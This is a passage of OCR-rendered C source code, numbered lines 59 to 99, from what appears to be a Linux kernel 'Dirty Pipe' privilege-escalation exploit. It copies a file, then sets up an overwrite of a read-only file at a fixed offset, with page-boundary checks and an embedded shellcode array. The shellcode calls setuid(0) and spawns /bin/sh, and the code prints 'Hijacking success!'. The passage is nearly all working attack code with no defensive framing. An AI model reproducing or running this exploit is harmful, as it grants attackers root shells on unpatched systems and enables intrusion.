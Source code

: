       59.             exit(EXIT_FAILURE);
    
      60.         }
    
      61.   62.         char c;
    
      63.         while ((c = fgetc(f1)) != EOF)
    
      64.             fputc(c, f2);
    
      65.   66.         fclose(f1);
    
      67.         fclose(f2);
    
      68.   69.     loff_t offset = 37616;
    
      70.   71.     const char data [255]={0x48,0x31,0xff,0xb0,0x69,0x0f,0x05,0x48,0x31,0xd2,0x48,0xbb,0xff,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x48,0xc1,0xeb,0x08,0x53,0x48,0x89,0xe7,0x48,0x31,0xc0,0x50,0x57,0x48,0x89,0xe6,0xb0,0x3b,0x0f,0x05,0x6a,0x01,0x5f,0x6a,0x3c,0x58,0x0f,0x05};
    
      72.   73.     printf("Hijacking success!\n");
    
      74.     const size_t data_size = strlen(data);
    
      75.   76.     if (offset % PAGE_SIZE == 0) {
    
      77.         fprintf(stderr, "Sorry, cannot start writing at a page boundary\n");
    
      78.         return EXIT_FAILURE;
    
      79.     }
    
      80.   81.     const loff_t next_page = (offset | (PAGE_SIZE - 1)) + 1;
    
      82.     const loff_t end_offset = offset + (loff_t)data_size;
    
      83.     if (end_offset > next_page) {
    
      84.         fprintf(stderr, "Sorry, cannot write across a page boundary\n");
    
      85.         return EXIT_FAILURE;
    
      86.     }
    
      87.   88.     /* open the input file and validate the specified offset */
    
      89.     const int fd = open(path, O_RDONLY); // yes, read-only! :-)
    
      90.     if (fd < 0) {
    
      91.         perror("open failed");
    
      92.         return EXIT_FAILURE;
    
      93.     }
    
      94.   95.     struct stat st;
    
      96.     if (fstat(fd, &st)) {
    
      97.         perror("stat failed");
    
      98.         return EXIT_FAILURE;
    
      99.     }
    